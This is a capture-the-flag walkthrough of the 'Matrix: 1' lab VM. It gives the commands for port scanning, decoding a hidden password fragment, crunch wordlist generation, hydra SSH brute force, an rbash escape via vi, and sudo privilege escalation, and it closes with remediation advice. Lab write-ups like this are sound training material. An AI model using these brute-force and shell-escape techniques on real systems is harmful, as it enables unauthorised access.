





# Matrix: 1 — Writeup

| Field | Value |
|---|---|
| **Target IP** | 192.168.1.18 |
| **Difficulty** | Medium |
| **OS** | Linux |
| **Goal** | root flag (`/root/flag.txt`) |
| **Source** | [HackingArticles](https://www.hackingarticles.in/matrix-1-vulnhub-walkthrough/) |

---

## Attack Summary

Matrix:1 runs HTTP on two ports (80 and 31337). A base64 string hidden in the port 31337 page source points to a Brainfuck-encoded file (`Cypher.matrix`) that reveals a partial SSH password for the user `guest`. Crunch generates the missing characters; Hydra recovers the full password. SSH access lands in a restricted bash (rbash). `vi` is available and used to escape the restricted shell. A misconfigured `sudo` rule then grants root via `sudo su`.

---

## Methodology

1. Port scan: SSH (22), HTTP (80), HTTP (31337)
2. Port 31337 page source contains a base64-encoded path
3. `Cypher.matrix` retrieved — contains Brainfuck-encoded password fragment
4. Crunch generates 8-character wordlist from known prefix
5. Hydra brute forces SSH as `guest`
6. Restricted bash (rbash) escape via `vi` shell escape
7. `sudo su` with `guest` password grants root

---

## Step 1: Host Discovery and Port Scanning

```bash
netdiscover
nmap -sV -sC 192.168.1.18
```

Open ports: **22** (SSH), **80** (HTTP), **31337** (HTTP).



---

## Step 2: Port 31337 — Base64 Decode

Browse to `http://192.168.1.18:31337` and view the page source. A base64 string is present:

```bash
echo "<base64_string>" | base64 -d
```

The decoded value is a file path: **Cypher.matrix**

---

## Step 3: Retrieve and Decode Cypher.matrix

```bash
wget http://192.168.1.18:31337/Cypher.matrix
```

Open the file — it contains a Brainfuck-encoded string. Decode it with an online decoder or a local tool. The output is a partial SSH password for user `guest`, with the last two characters unknown (e.g., `k1ll0r??`).



---

## Step 4: Generate a Targeted Wordlist with Crunch

```bash
crunch 8 8 -t k1ll0r%@ -o /tmp/dict.txt
```

`%` matches a digit, `@` matches a lowercase letter. This produces all 260 combinations.

---

## Step 5: SSH Brute Force with Hydra

```bash
hydra -l guest -P /tmp/dict.txt 192.168.1.18 ssh
```

Recovered password: **k1ll0r7n**

---

## Step 6: SSH Login — Restricted Shell

```bash
ssh guest@192.168.1.18
# Password: k1ll0r7n
```

The shell is **rbash**. `ls` is blocked. Confirm available binaries:

```bash
echo /home/guest/prog/*
```

`vi` is present.



---

## Step 7: Escape Restricted Shell via vi

```bash
vi
```

Inside vi, drop to a shell:

```
:set shell=/bin/bash
:shell
```

Now in a proper bash session. Fix the environment:

```bash
export SHELL=/bin/bash
export PATH=/usr/bin:/bin:$PATH
```



---

## Step 8: Privilege Escalation via sudo

```bash
sudo -l
```

Output shows: `(ALL) ALL` — the `guest` user can run all commands as root. (Or `sudo su` is permitted.)

```bash
export PATH=/bin:$PATH
sudo su
# Password: k1ll0r7n
```

Root shell obtained.

```bash
cat /root/flag.txt
```



---

## Lessons Learned

- Custom HTTP ports are worth enumerating fully; port 31337 held the entire attack path.
- Multi-layer encoding (base64 + Brainfuck) can obscure credentials but is trivially reversible with standard tools.
- Crunch excels at generating small, targeted wordlists when the password structure is partially known — far more efficient than rockyou.txt for this case.
- Restricted shells (rbash) are not security boundaries. If a single unrestricted binary such as `vi`, `vim`, `nano`, `less`, `awk`, or `python` is reachable, shell escape is trivial.
- Overly permissive `sudo` rules that grant a low-privilege user full `sudo` access defeat the purpose of least-privilege design.

---

## Remediation

| Vulnerability | Fix |
|---|---|
| Password embedded in a file served over HTTP | Do not store credentials in web-accessible locations |
| Restricted shell bypassable via `vi` | Do not place unrestricted binaries in a jailed user's PATH; use a proper chroot or container |
| Overly permissive sudo rule | Follow least-privilege; grant only specific required commands in sudoers |
| Short, partially known password | Enforce longer, fully random passwords |
